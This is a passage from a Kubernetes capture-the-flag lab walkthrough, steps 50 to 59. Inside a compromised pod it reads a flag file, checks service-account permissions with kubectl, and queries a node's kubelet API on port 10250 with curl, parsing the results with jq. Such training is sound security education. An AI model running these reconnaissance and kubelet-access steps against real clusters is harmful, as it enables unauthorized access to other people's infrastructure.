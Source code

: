 50. Let's check the root directory for another flag.

    ```shell
    ls -l /
    ```

51. Read the flag:

    ```shell
    cat /FLAG-2.txt
    ```

52. Just so we can see that an exec isn't going to work, let's run a `kubectl` command. First, note that we have the server information we need:

    ```shell
    env
    ```

53. Let's try listing pods:

    ```shell
    /tmp/kubectl get pods
    ```

54. Note that the error message tells us that we're using a different service account now: this one is named `system:serviceaccount:mktg:mysql`, whereas the other was specific to wordpress. This service account isn't allowed to even list pods, much less exec into any.

55. Let's see if we can find the IP addresses of the nodes:

    ```shell
    /tmp/kubectl get nodes
    ```

56. Let's communicate with the read-and-write API on the kubelet on a node, which listens on TCP port `10250`. We'll try the control-plane node, but we could try this on any node. We'll start by asking for a list of the running pods. We'll need the control-plane node's external IP address, since the pod doesn't have this node in its `/etc/hosts` file. You can get that IP address from your Kali system's `/etc/hosts` file.

    ```shell
    curl -ks https://10.23.58.40:10250/runningpods/
    ```

57. Note that what you received back was JSON output – you can read it, but it's much easier to read if you parse it with a tool.  The next six intermediate steps will let you experiment with the `jq` tool, short for JSON query. If you'd like, skip these steps and go straight to the step that reads "Now, let's get a list of all the pod names, with their namespaces."

58. Let's get a list of the entries in this JSON output's items array.

    ```shell
    curl -ks https://10.23.58.40:10250/runningpods/ | jq '.items'
    ```

59. Now let's see if we can get just the first item.

    ```shell
    curl -ks https://10.23.58.40:10250/runningpods/ | jq '.items[0] '
    ```
